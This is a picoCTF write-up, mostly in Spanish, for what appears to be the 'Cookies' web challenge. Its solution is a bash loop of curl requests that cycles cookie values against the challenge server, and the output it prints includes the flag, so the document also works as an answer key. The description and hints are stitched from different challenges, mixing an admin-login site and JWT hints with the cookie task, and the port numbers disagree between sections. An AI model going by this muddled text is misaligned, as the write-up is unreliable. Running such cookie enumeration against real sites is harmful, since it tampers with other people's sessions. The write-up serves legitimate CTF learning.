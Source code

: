 ## Descripción
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:28916/](http://mercury.picoctf.net:28916/)

Hay un sitio web seguro en https://jupiter.challenges.picoctf.org/problem/54253/ (enlace) o http://jupiter.challenges.picoctf.org:54253. ¡Intenta ver si puedes iniciar sesión como administrador!
### Pistas
1. What is that cookie?
2. Have you heard of JWT?

1. ¿Qué es esa "cookie"?
2. ¿Has oído hablar de JWT?
### Solución
```
hellbroone-picoctf@webshell:~$ for i in {8..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep "I love\|pico"
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
hellbroone-picoctf@webshell:~$ exit
logout

```
### Notas Adicionales
Para este reto aprendimos obtener cookies desde el bash para poder obtener las cookies necesarias y poder saber cuál es la cookie que necesitamos, por ello hicimos un pequeño código que nos permite ejecutar y obtener las cookies de un sitio mediante una consulta de su nombre.
### Referencias
https://play.picoctf.org/practice/challenge/173
[http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
